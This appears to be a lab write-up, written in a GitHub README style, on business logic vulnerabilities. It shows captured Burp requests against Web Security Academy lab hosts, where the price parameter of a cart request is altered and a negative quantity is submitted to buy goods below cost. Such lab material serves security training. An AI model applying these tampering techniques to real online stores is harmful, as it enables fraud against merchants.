 ## Business logic vulnerabilities

Business logic vulnerabilities need manual intervention as No tool can detect these and they can vary from application to application and very hazardous. 
We have to understand application logic, application functionality, implementations, and business requirements. Whenever we intercept the request,
we have to manipulate specific parameters in the request or so to test for the business logic vulnerability


 ## Some common example of business logic:
 
 Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 Manipulation in user-supplied input (too much quantity or –ve quantity) and not checked from the server-side.
 
 Manipulation in intended flow (2FA).
 
 ## 1. Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 With Burp running, log in and attempt to buy the leather jacket. The order is rejected because you don't have enough store credit. 
 
 In Burp, go to "Proxy" > "HTTP history" and study the order process. Notice that when you add an item to your cart,
 the corresponding request contains a price parameter. Send the POST /cart request to Burp Repeater. 
 
 ## Request 
 
    POST /cart HTTP/1.1
    Host: 0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Cookie: session=VQHFrZjrndyN8kEb1ivgOD4X9YydBrGB
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Origin: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Referer: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net/product?productId=1
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    productId=1&redir=PRODUCT&quantity=1&price=133700
    
 ## Note That Show Price in request 
 
     productId=1&redir=PRODUCT&quantity=1&price=133700   
     
 So Change The Price and sand the request in server, like server is accept the request, here business logic vulnerabilities
 
 
 ## 2. High-level logic vulnerability
 
 Your card amount 100$ but you wante purchase 200$ product, buy 2 product first product price 50$ and secand product price 150$
 
 First Product nurp request sand burp repeter and  Observe that product quantity=1 so chnage the product guantity add -
 
 just like quantity=-2 and sand the request in server, accept the request, this is vulnerability 
 
 ## Request 
 
    POST /cart HTTP/1.1
    Host: 0ab6005b04eb8061c0d3246e00430049.web-security-academy.net
    Cookie: session=BC6C85CuO7OKzvT5oSjqsThv5qBb6Xap
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37
    Origin: https://0ab6005b04eb8061c0d3246e00430049.web-security-academy.net
    Referer: https://0ab6005b04eb8061c0d3246e00430049.web-security-academy.net/product?productId=2
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    productId=2&redir=PRODUCT&quantity=1
 
 Change The product header like quantity=-1
 
    productId=2&redir=PRODUCT&quantity=-1
    
     
     
     
